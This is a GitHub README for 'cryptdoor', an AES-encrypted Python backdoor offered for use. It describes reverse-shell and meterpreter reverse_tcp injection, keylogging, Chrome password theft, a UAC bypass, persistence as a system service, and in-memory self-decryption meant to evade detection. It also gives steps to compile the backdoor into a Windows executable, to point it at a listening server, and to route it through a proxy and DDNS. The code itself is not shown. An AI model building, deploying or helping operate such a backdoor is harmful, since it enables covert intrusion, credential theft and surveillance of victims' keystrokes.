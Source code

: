 cryptdoor
=========

AES encrypted python backdoor that communicates AES encrypted data.
Shell has the ability to spawn a meterpreter reverse_tcp into memory using VirtualAlloc (taken from Veil-Evasion).
We can also download and upload files over the secure AES encrypted connection.
Keylogging is also implemented for windows using pyHook and the keystrokes are transmitted over the secure AES encrypted connection.
All communications apart from ones meterpreter makes are encrypted with AES.
On top of this the script itself is encrypted with AES and decrypts itself in memory (taken from pyherion).

Compilation
=========

The backdoor script can be compiled to a standalone PE executable using pyinstaller on windows.

1. Install python27: https://www.python.org/ftp/python/2.7.8/python-2.7.8.msi
2. Run this script to install pip: https://bootstrap.pypa.io/get-pip.py
3. Press Windows Key+Pause, then "Advanced system settings" then "Environment Variables"
4. You might or not have a "PATH" variable listed there if not add one and write

	"C:\Python27;C:\Python27\Scripts"

If you do already have one just add a colon before adding this to the variable like:

	"C:\oldpath;C:\Python27;C\Python27\Scripts"

5. Open a new cmd terminal and you should be able to:

	pip install pyinstaller pycrypto

6. Add ';C:\Python27\Lib\site-packages\PyInstaller' to the end of your PATH variable
7. Install pyHook: http://sourceforge.net/projects/pyhook/files/latest/download
8. Install pywin32: http://sourceforge.net/projects/pywin32/files/pywin32/
9. Place the socks.py file in the same directory as backdoor.py
10. Open a new cmd promt and cd to wherever backdoor.py is.

	pyinstaller -F -w backdoor.py

11. That's it, enjoy your exe in dist.

Usage
=========

cryptdoor.py will make the backdoor and server.
The syntax is:

	./cryptdoor.py host port

You can add a -p to attempt automatic persistence like:

	./cryptdoor.py host port -p

host and port refer to the host and port of the listening server.

	AES-shell options:
    	 download file       -  Download a file from remote pwd to localhost.
    	 upload filepath     -  Upload a filepath to remote pwd.
    	 run commands        -  Run a command in the background.
         wget url            -  Download a file from url to pwd.

	Windows Only:
    	 persistence         -  Install exe as a system service backdoor.
    	 meterpreter ip:port -  Execute a reverse_tcp meterpreter to ip:port.
    	 keyscan             -  Start recording keystrokes.
    	 keydump             -  Dump recorded keystrokes.
    	 keyclear            -  Clear the keystroke buffer.
    	 chromepass          -  Retrieve chrome stored passwords.
    	 bypassuac cmds      -  Run commands as admin.

Proxies
=========

If you wish to have your backdoor connect back to you through a HTTP/s proxy, there a few things we have to do:

1. Edit the cryptdoor script from line 245-24, and fill in the values for the proxy details.

2. Get a DDNS pointed at your IP (proxying does not work without one.)

3. Then generate your backdoor in the normal way but replace the IP with your DDNS:

	./cryptdoor.py DDNS port



